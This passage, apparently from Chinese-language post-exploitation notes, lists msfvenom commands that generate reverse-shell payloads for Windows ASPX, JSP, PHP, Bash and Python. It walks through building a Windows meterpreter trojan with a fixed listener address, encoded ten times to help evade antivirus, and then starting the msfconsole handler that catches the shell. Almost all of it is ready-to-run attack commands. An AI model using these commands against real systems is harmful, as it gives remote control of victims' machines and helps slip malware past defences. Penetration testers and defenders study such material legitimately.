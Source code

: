 ```bash
msfvenom --platform windows-p windows/meterpreter/reverse_tcp -f aspx -o payload.aspx
```

##### 6.JSP

```bash
msfvenom --platform java -p java/jsp_shell_reverse_tcp -f raw -o payload.jsp 
```

##### 7.PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp -f raw -o payload.php
```

##### 8.BASH

```bash
msfvenom -p cmd/unix/reverse_bash -f raw -o shell.sh  
```

##### 9.Python

```bash
msfvenom -p python/meterpreter/reverse_tcp -f raw -o shell.py
```

### MSF使用示例

#### 1.生成木马文件

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.70.4 LPORT=8088 -b "\x00" -i 10 -f exe -o /root/tools/msf/8088.exe

参数含义：
-a x86                                  #使用x86框架
--platform windows                      #运行平台为windows
 -p windows/meterpreter/reverse_tcp      #指定payload
LHOST=192.168.21.128 LPORT=8088         #本地IP和监听端口
-b "\x00"                               #去掉坏字符
-i 10                                   #编码10次，提高免杀概率
-f exe                                  #木马文件格式
-o /root/1.exe                          #输出路径
```
![image-20241009090726558](https://image.201068.xyz/assets/38.后渗透/image-20241009090726558.png)2.启动监听程序

```bash
msfconsole
use exploit/multi/handler                    
set payload windows/meterpreter/reverse_tcp  
set lhost 192.168.70.4
set lport 8088                              
exploit
```
